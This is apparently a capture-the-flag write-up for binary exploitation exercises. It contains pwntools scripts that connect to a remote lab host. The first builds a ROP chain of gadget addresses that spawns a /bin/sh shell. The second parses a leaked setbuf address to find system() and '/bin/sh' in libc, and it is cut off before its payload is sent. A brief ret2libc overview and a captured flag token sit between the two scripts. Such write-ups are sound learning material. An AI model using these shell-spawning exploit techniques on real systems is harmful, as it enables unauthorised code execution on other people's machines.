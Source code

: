 Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

p = remote("plsdonthaq.me", 6002)

payload = b"/bin/sh\x00"
payload += b"A" * 0x8

# ebx := *(/bin/sh\x00)
payload += p32(0x0806ee5b)  # push eax; ...; pop ebx

# edx := 0
payload += p32(0x0806eb8b)  # pop edx; ret
payload += p32(0x00000000)

# eax := 0x0b
payload += p32(0x08056200)  # xor eax, eax; ret
payload += p32(0x0807c01a) * 11 # inc eax * 11

# ecx := 0; int 0x80
payload += p32(0x0806ef51)  # xor ecx, ecx; int 0x80

p.sendlineafter("\n", payload)

p.interactive()
p.close()
```


roproprop
==========================================================
General overview:
----------------------------------------------------------
1. Pretty similar to the same exercise in the tutorial, the program leaks the address of setbuf
2. Use this leaked address to find the addresses of system() and the string "bin/sh" in the provided libc
3. Write these addresses onto the stack

Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1yb3Byb3Byb3AiLCJpcCI6IjEwMS4xNjQuMzMuMjE5Iiwic2Vzc2lvbiI6ImE3YThlYjM0LTI4M2YtNDI3NC04YWMxLTVhMmZjNDlhZDMxZiJ9.P93C_w0Q8fOy9qe8JIH7tpA8j1uO6MDJUNAKvbrfOf8}

Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

p = remote("plsdonthaq.me", 6003)

p.recvuntil("- ")
line = p.recvuntil(" -\n", drop=True)

setbuf = int(line, 16)
libc_b = setbuf - 0x65ff0
system = libc_b + 0x3ada0
bin_sh = libc_b + 0x15ba0b

```